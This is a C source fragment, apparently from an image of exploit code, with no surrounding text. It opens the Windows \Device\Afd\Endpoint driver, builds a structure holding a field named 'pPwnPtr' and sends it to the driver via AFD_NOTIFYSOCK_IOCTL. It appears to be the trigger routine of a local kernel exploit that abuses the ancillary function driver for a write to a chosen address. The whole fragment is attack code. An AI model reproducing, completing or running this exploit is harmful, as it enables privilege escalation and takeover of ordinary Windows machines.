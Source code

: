 ```
 
    ret = _NtCreateIoCompletion(&hCompletion, MAXIMUM_ALLOWED, NULL, 1);
 
    if (0 != ret)
    {
        goto done;
    }
 
    ret = _NtSetIoCompletion(hCompletion, 0x1337, &IoStatusBlock, 0, 0x100);
 
    if (0 != ret)
    {
        goto done;
    }
 
    ObjectFilePath.Buffer = (PWSTR)L"\\Device\\Afd\\Endpoint";
    ObjectFilePath.Length = (USHORT)wcslen(ObjectFilePath.Buffer) * sizeof(wchar_t);
    ObjectFilePath.MaximumLength = ObjectFilePath.Length;
 
    ObjectAttributes.Length = sizeof(ObjectAttributes);
    ObjectAttributes.ObjectName = &ObjectFilePath;
    ObjectAttributes.Attributes = 0x40;
 
    ret = _NtCreateFile(&hSocket, MAXIMUM_ALLOWED, &ObjectAttributes, &IoStatusBlock, NULL, 0, FILE_SHARE_READ | FILE_SHARE_WRITE, 1, 0, bExtendedAttributes, sizeof(bExtendedAttributes));
 
    if (0 != ret)
    {
        goto done;
    }
 
    Data.hCompletion = hCompletion;
    Data.pData1 = VirtualAlloc(NULL, 0x2000, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    Data.pData2 = VirtualAlloc(NULL, 0x2000, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    Data.dwCounter = 0x1;
    Data.dwLen = 0x1;
    Data.dwTimeout = 100000000;
    Data.pPwnPtr = pPwnPtr;
 
    if ((NULL == Data.pData1) || (NULL == Data.pData2))
    {
        ret = GetLastError();
        goto done;
    }
 
    hEvent = CreateEvent(NULL, 0, 0, NULL);
 
    if (NULL == hEvent)
    {
        ret = GetLastError();
        goto done;
    }
 
    _NtDeviceIoControlFile(hSocket, hEvent, NULL, NULL, &IoStatusBlock, AFD_NOTIFYSOCK_IOCTL, &Data, 0x30, NULL, 0);
 
    ret = 0;
 
done:
    if (INVALID_HANDLE_VALUE != hCompletion)
    {
        CloseHandle(hCompletion);
    }
```